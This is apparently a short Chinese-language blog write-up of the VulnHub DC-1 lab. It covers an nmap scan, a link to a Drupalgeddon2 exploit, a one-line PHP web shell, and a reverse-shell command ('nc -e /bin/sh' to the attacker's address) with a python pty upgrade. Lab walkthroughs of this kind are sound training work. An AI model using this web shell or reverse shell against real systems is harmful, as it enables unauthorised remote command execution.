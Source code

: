 ```yaml
---
layout: post
title: VulnHub-DC1
date: 2022-03-20
Author: LuYee6813
tags: [Vulnhub]
toc: true
---
```



## 1. 尋找DC-1靶機
```linux
$ nmap 10.0.2.4 -A -p-
```

## 2. 發現有port 80 -> 直接瀏覽網頁
![](https://i.imgur.com/I1N1wgZ.png)

## 3. 使用wappalyzer得知使用Drupal 7
![](https://i.imgur.com/B8nHsAB.png)

## 4. 搜尋已知Exploit來取得RCE 
- CVE-2018-7600
> Exploit:https://github.com/dreadlocked/Drupalgeddon2

## 5. ls -> 發現flag1
![](https://i.imgur.com/4pA9CSv.png)

## 6. 發現有shell.php 
```php    
<?php if( isset( $_REQUEST['c'])) { system( $_REQUEST['c'] . ' 2>&1 ');}>
```

## 7. 使用nc 監聽取回reverse shell(python pty)
```linux
http://10.0.2.4/shell.php?c=nc%20-e%20%2Fbin%2Fsh%2010.0.2.15%208080
nc -e /bin/sh 10.0.2.15 8080
python -c "import pty;pty.spawn('/bin/bash')"
```



